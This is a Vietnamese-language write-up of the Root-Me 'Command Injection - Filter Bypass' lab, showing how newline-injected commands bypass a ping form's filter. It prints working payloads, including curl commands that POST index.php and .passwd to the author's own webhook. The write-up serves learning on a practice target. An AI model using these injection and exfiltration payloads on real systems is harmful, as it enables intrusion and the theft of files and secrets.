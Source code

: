 # Command Injection - Filter Bypass

**Tên challenge:** Ping Service v2

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass)

**Tác giả challenge:** sambecks

**Mục tiêu challenge:** Find a vulnerability in this service and exploit it. Some protections were added. The flag is on the index.php file.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng Ping duy nhất:

![alt text](./images/image.png)

**B2:** Ta thử điền google.com vào thì Website trả về kết quả như sau:

![alt text](./images/image-1.png)

Đến đây thì ta có thể hình dung Website sẽ lấy input ta nhập vào rồi thực hiện cú pháp ping đến input đó.

**VD:** ping input_nguoidung

`Lúc này, câu hỏi đặt ra là: "Liệu Website có xử lý đúng cách input của người dùng không ? Và liệu ta có thể lợi dụng chức năng này để kéo dài câu lệnh và khiến cho hệ thống thực thi Command theo ý mình không ?"`

**B3:** Để tìm ra câu trả lời thì ta sẽ thử payload input như sau: `google.com; ls -la`

* <u>**Giải thích:**</u> google.com là để kết hợp với lệnh ping của hệ thống, sau đó ta sẽ thêm `; ls -la` để thử xem liệu Website có thực thi câu lệnh được kéo dài này của ta không ?
* Nếu như giả thuyết của ta đúng thì cú pháp của hệ thống lúc này sẽ như sau: `ping google.com; ls -la`

![alt text](./images/image-2.png)

=> Xem ra Website đã filter input người dùng để hạn chế việc bị tấn công Command Injection.

Nhưng ngoài dấu `;` để nối dài câu lệnh Command trong Linux thì ta còn có thể dùng các dấu khác với chức năng tương tự như: `$`, `\`, `||`, `&&`, xuống dòng (`%0a`)

**B4:** Ta tiếp tục thử các cách trên thì chỉ duy nhất payload: `google.com%0als` là thành công

**Lưu ý:** Payload trên phải được chỉnh sửa qua gói tin trên Burp-suite vì khi thực hiện thẳng trên trình duyệt có thể sẽ không thành công.

![alt text](./images/image-3.png)

=> Từ đây, ta có thể kết luận trang web đã thực thi Command của ta.

Tuy nhiên, kết quả trả về lại chỉ là `Ping OK`. Vậy thì làm sao ta mới đọc được file `index.php` mà đề bài yêu cầu.

* **Trả lời:** Do Website đã filter hết những ký tự có thể nối dài câu Command và chỉ chừa `%0a` cho nên rất khó đề ta có thể mò từng kết quả của lệnh. Cho nên, ta chỉ có thể đẩy file `index.php` ra ngoài Webhook của ta thông qua lệnh **curl**.

**B5:** Ta thử sử dụng lệnh `curl https://webhook_cua_ta` để xem thử Website có cho gói tin ra ngoài không thông qua payload `google.com%0acurl+https://webhook_cua_ta`

![alt text](./images/image-4.png)

=> Vậy là ta có thể `curl` đến Webhook của ta.

**B6:** Ta chỉ cần dùng lệnh **curl** để lấy file `index.php` đưa lên Webhook của ta thông qua payload `google.com%0Acurl+-X+POST+-F+"file=@./index.php"+https://webhook_cua_ta`

* **Giải thích:** `./index.php` nghĩa là lấy file `index.php` ở thư mục hiện tại. Nếu không có dấu `.` trước `/index.php` thì lệnh sẽ tìm file ở thư mục `/` và có thể gây ra lỗi.

Sau khi gửi gói tin đi, trên Webhook của ta sẽ nhận được file `index.php` và khi tải file đó về mở ra thì ta biết được `Flag` đang nằm ở file `.passwd` cùng với thư mục chứa file `index.php`

**B7:** Ta tiếp tục dùng lệnh curl trên và thay đổi thành file `.passwd`: `google.com%0Acurl+-X+POST+-F+"file=@./.passwd"+https://webhook_cua_ta`

=> Cuối cùng là đọc `Flag` thôi.
